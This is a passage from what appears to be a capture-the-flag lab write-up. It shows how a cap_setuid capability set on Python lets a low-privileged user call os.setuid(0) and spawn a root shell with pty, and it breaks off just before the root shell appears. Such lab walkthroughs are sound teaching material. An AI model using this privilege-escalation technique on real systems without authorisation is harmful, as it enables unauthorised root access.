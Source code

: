 `cap_seduid` has some good uses on binaries, but on something like
Python which can take arbitrary user input, it is dangerous.

#### Abusing Capabilities

I'll abuse the `cap_setuid` to change the user id of the current process
to something else, like I observed above. If this capabilities just
applied to the webserver, there would be no issue. But I can also open a
Python terminal:



    nathan@cap:/var/www.md$ python3
    Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>



I can use a familiar line to get a shell:



    >>> import pty
    >>> pty.spawn("bash")
    nathan@cap:/var/www.md$ id
    uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)



That's as expected. I'll exit:



    nathan@cap:/var/www.md$ exit
    0
    >>>



Back at the Python prompt, I'll set the userid for this process to root:



    >>> import os
    >>> os.setuid(0)



I can try to set the group id, but I don't have that permission:



    >>> os.setgid(0)
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
    PermissionError: [Errno 1] Operation not permitted



There is a `cap_setgid` capability as well that was not set here.

Now using `pty` to get a shell again gives a shell as the root user:

